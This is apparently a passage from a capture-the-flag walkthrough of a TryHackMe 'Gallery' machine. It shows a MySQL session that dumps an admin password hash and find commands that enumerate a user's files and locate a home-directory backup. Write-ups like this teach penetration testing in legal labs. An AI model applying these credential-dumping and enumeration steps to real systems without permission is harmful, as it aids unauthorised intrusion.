 The client is my **mysql**.

`mysql -u gallery_user -p`


```sql
show databases;
use gallery_db;

show tables;
describe users;

select username, password from users;

-- Output
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | a228b12a08b6527e7978cbe5d914531c |
+----------+----------------------------------+
```

The user flag is `/home/mike/user.txt` but we can't see it yet.

Before eventually moving to SUID/GUID, let's find all mike's owning files or directories.

```bash
find / -user mike -ls 2>/dev/null
find / -name "*mike*" -ls 2>/dev/null
```

The first command return files and directories in `/home/mike`.

```bash
4 drwxr-xr-x   6 mike     mike     /home/mike
4 -rwx------   1 mike     mike     /home/mike/user.txt
4 drwxrwxr-x   3 mike     mike     /home/mike/.local
4 drwx------   3 mike     mike     /home/mike/.local/share
4 -rw-r--r--   1 mike     mike     /home/mike/.bashrc
4 -rw-------   1 mike     mike     /home/mike/.bash_history
4 drwx------   3 mike     mike     /home/mike/.gnupg
4 -rw-r--r--   1 mike     mike     /home/mike/.bash_logout
4 drwx------   2 mike     mike     /home/mike/images
4 drwx------   2 mike     mike     /home/mike/documents
4 -rw-r--r--   1 mike     mike     /home/mike/.profile
```

The second command has a more interesting output:

```bash
drwxr-xr-x   6 mike     mike   /home/mike
drwxr-xr-x   5 root     root   /var/backups/mike_home_backup
```

![](/assets/img/2025-10-31-THM-Gallery/bash_history_file.png)